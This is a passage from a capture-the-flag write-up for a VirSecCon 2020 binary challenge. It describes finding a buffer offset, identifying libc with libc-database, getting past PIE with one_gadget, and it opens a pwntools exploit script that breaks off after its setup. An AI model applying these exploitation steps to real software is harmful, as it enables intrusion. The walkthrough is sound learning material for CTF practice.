 we got the offset `152` , now we have to get the libc , i use libc-database to find the right offset
you can download libc-database [here](https://github.com/niklasb/libc-database) so we can download the right libc or just copy the offset

![ss](/images/virseccon2020/2020-04-05-093245_399x191_scrot.png)

because the elf have some pie protection

![a](/images/virseccon2020/2020-04-05-093500_460x108_scrot.png)

so we can't use `pop rdi; ret;` since the address will change , the easiet way to solve this challenge
is using `one_gadget` lol , you can download [here](https://github.com/david942j/one_gadget)

to get one_gadget offset from the libc we can use command :

![aa](/images/virseccon2020/2020-04-05-093745_477x228_scrot.png)

and this is my exploit to get the flag :

{% highlight python %}
#!/usr/bin/env python2
'''
    author : tripoloski
    visit  : https://tripoloski1337.github.io/
    mail   : arsalan.dp@gmail.com
    generated by skeloski GEF
'''
import sys
from pwn import *
context.update(arch="amd64", endian="little", os="linux", log_level="debug",)
LOCAL, REMOTE = False, False
TARGET=os.path.realpath("./challenge")
elf = ELF(TARGET)

libc = ELF("./libc.so.6")

def attach(r):
    if LOCAL: